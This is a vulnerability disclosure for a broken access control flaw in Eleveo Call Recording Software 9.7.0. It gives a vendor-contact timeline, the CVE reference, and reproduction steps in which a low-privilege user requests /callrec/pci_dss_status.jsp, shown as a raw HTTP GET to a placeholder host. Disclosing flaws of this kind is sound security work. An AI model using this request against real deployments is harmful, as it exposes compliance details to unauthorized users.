


# Eleveo Call Recording Software 9.7.0 pci_dss_status.jsp Improper Authorization

> - https://vuldb.com/vuln/377776
> - https://vuldb.com/submit/797464
> - https://www.cve.org/CVERecord?id=CVE-2026-15471

## Timeline

- 10/3/2026 - Initial contact with the vendor
- 14/3/2026 - A second attempt was made to contact the vendor; however, no response was received
- 5/4/2026 - The vulnerability was submitted to VulnDB for CVE assignment.
- 11/7/2026 - The CVE has been assigned and published.

## Software Details

| Key              | Value                                          |
| ---------------- | ---------------------------------------------- |
| Vendor Name      | Eleveo                                         |
| Software Name    | Call Recording Software                        |
| Software URL     | https://www.eleveo.com/call-recording-software |
| Affected Version | 9.7.0                                          |

## Description

A Broken Access Control vulnerability exists in /callrec/pci_dss_status.jsp endpoint of Eleveo Call Recording 9.7.0, which allows low-privileged authenticated users, including those without “Other Settings” privilege, to retrieve the PCI compliance status of the system. The backend does not properly enforce role-based access control, allowing unauthorized access to information related to the system’s PCI compliance status. This functionality should be restricted to authorized administrative users.

## Implications

Disclosure of PCI compliance status, which may reveal information about the security posture and compliance configuration of the system.

## Vulnerability Type

Broken Access Control / Improper Authorization

## Steps to Reproduce

1. Login as a low-privilege user with no “Other Settings” privilege


2. Navigate to https://example.local/callrec/pci_dss_status.jsp

```http
GET /callrec/pci_dss_status.jsp HTTP/1.1
Host: example.local
Cookie: DWRSESSIONID=***TRUNCATED***; scroolY=0; JSESSIONID=***TRUNCATED***; 
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/145.0.0.0 Safari/537.36 Edg/145.0.0.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Priority: u=0, i
Connection: keep-alive
```




